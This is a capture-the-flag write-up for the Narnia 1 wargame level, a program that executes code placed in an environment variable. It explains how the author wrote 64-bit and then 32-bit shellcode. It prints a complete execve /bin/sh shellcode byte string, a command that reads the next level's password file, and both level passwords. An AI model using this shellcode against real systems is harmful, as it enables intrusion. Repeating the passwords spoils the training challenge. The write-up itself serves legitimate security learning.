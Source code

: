 # Narnia 1

Password: `efeidiedae`

Running /narnia/narnia1 gives the message `Give me something to execute at the env-variable EGG`

The source code for the problem is (no license, again):

```C
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

I attempted to build something sneaky [like this](./narnia01/failed-1.c) (compiled with gcc) but it didnt work. Ultimately a bit of research revealed that this is a shellcode problem: the goal is to place into the environment variable some text that is the hex encoding of legitimate machine code, so when the program casts it to a function, the function is valid.

Shellcode is the nickname for position-independent code, machine code that can be placed anywhere in memory and still function as intended. It needs to not depend on any stack variables, and to contain no null values (that is, to not contain the text `\x00`) so that it can function both as a full string and as machine code (the null value would prematurely terminate the string, ruining the shellcode).

While its entirely possible to grab some shellcode online (e.g. from the [shellcode database](http://shell-storm.org/shellcode/)), I took this as a learning challenge and decided to write my own.

First I tried doing so solely through C, [like this](./narnia01/failed-2.c), but couldn't get the output right. I was compiling using the command `gcc narnia01-shellcode.c -O0 -o shellcode` and dumping the assembly with `objdump -d shellcode`, but couldn't get rid of the null bytes - seemed to be some sort of optimisation I couldn't get rid of.

Next I tried with Assembly, but ran into a problem: none of the assembly I would write would work. It would always result in a seg fault. I thought it might be processor architecture, but when I tried to assemble on the narnia remote machine it would work and both the remote machine and my dev machines had the same x86-x64 architecture. Ultimately this turned out to be a quirk of WSL: the windows subsystem is 64 bit only - no 32 bit assembly at all. Linux 64 bit machines still allow 32 bit via compatibility. If I wrote valid 64 bit assembly it would work, and in theory 64 bit should work as well as 32 bit for my purposes. A challenge was that most tutorials use 32 bit, so I had to investigate how to do the translation. Fortunately its pretty easy: a different register layout (though the old registers are still there too) and `syscall` instead of int `$0x80`.

The next challenge was getting `execve` (the command that switches the current process with another) to run. The command takes three params, the second being an array and I struggled to get this working - bearing in mind I set myself a limit that I must write the code, and I must understand it. I could have just copied something, copied some assembly script, but I didn't want to do that. All the same, the final solution was a bit of a copout - it seems that linux doesn't actually require you to use execve properly, at least not in assembly: you can leave param two null and it works fine :) The first shell code I got working is [here in shellcode-64bit.asm](./narnia01/shellcode-64bit.asm), and was successfully tested in [this C testprog](./narnia01/testprog.c).

*However*, this also didn't work when used on the narnia program: while the shellcode worked fine whenever I used my own test programs, or even compiled nearly identical test programs on the remote host with the code injected in, it failed with narnia1. I got a mix of seg faults and illegal instructions - the former was probably just formatting mistakes, but the latter is more interesting and I eventually figured it out: while the machine is x86_64, the narnia1 executable *itself* is 32 bit. So I need 32 bit shellcode after all! 

With working 64 bit shellcode, getting 32 bit code was real easy: I created some [here in shellcode-32bit.asm](./narnia01/shellcode-32bit.asm) via a simple conversion (`int $0x80` instead of `syscall`, some different registers and constants being used).

## Steps to use exploit:

1. Copy or create a file called `shellcode.s` on the Narnia machine, containing the contents of [shellcode-32bit.asm](./narnia01/shellcode-32bit.asm)
2. Compile as a 32 bit executable via `gcc -m32 -nostdlib shellcode.s -o shellcode.so`
3. Use `objdump -d ./shellcode.so` to get the assembly dump.
4. Combine all machine code numbers (the second column of hex pairs) together sequentially with `\x` prefixing each.

    E.g. if the machine code is the lines `eb 0e`, `31 db`, `5b` then combined its `\xeb\x0e\x31\xdb\x5b`

5. Set the environment variable to the result using a command that parses escape sequences, e.g. on my run I used `echo -e` and the command was:

    `export EGG=$(echo -e "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")`

6. Run narnia1: `/narnia/narnia1`
7. All going well, you should get a shell. Run the command `cat /etc/narnia_pass/narnia2` to get the password for narnia2.

The password for narnia2 is **`nairiepecu`**.

Useful resources: 

- [Linux System Call Table for x86_64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
- [Linux System Call Table for 32bit](http://shell-storm.org/shellcode/files/syscalls.html)
- [NASM Tutorial](https://cs.lmu.edu/~ray/notes/nasmtutorial/)
- [GNU Assembler (GAS) Samples](https://cs.lmu.edu/~ray/notes/gasexamples/)
- [StackOverflow hint showing I was overengineering things](https://stackoverflow.com/a/46553481)
